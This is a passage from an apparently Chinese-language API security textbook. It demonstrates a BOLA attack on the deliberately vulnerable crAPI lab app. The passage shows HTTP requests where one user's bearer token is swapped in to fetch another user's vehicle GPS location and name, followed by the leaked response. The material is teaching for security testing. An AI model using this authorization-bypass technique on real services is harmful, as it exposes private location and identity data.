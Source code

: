 ![crAPI 添加车辆窗口的截图，窗口中有框可以输入车辆的 pin 代码和 vin](img/F10006.png)

图 10-6：crAPI 车辆验证屏幕

一旦你注册了 UserB 的车辆，点击**刷新位置**按钮捕获请求。它应该像这样：

```
GET /identity/api/v2/vehicle/d3b4b4b8-6df6-4134-8d32-1be402caf45c/location HTTP/1.1
Host: 192.168.195.130:8888
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Content-Type: application/json
Authorization: Bearer **UserB-Token**
Content-Length: 376
```

现在你有了 UserB 的 GUID，你可以替换掉 UserB 的 Bearer token，并使用 UserA 的 Bearer token 发送请求。列表 10-5 显示了请求，列表 10-6 显示了响应。

```
GET /identity/api/v2/vehicle/d3b4b4b8-6df6-4134-8d32-1be402caf45c/location HTTP/1.1
Host: 192.168.195.130:8888
Content-Type: application/json
Authorization: Bearer **UserA-Token**
```

列表 10-5：BOLA 攻击

```
HTTP/1.1 200

{
"carId":"d3b4b4b8-6df6-4134-8d32-1be402caf45c",
"vehicleLocation":
     {
     "id":2,
     "latitude":"39.0247621",
     "longitude":"-77.1402267"
     },
"fullName":"**UserB**"
}
```

